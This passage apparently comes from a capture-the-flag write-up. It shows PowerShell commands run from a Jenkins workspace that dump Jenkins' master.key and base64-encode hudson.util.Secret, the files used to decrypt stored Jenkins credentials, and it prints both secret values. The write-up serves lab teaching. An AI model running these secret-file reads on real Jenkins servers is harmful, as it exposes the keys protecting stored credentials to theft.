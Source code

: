 

`master.key` looks like it's stored in hex:



    C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\0xdf's job>powershell -c cat ..\..\secrets\master.key 
    f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19



I can verify I got the full thing by making sure it's the same length,
256 bytes:



    oxdf@hacky$ wc -c master.key 
    256 master.key



`hudson.util.Secret` looks like a binary file:

![](/img/image-20220228165017916.png)

I'll use PowerShell to base64 [encode
it](https://docs.microsoft.com/en-us/previous-versions/troubleshoot/winautomation/process-development-tips/text-manipulation/convert-file-to-base64-string-format):



    C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\0xdf's job>powershell -c [convert]::ToBase64String((cat ..\..\secrets\hudson.util.Secret -Encoding byte)) 
    gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=
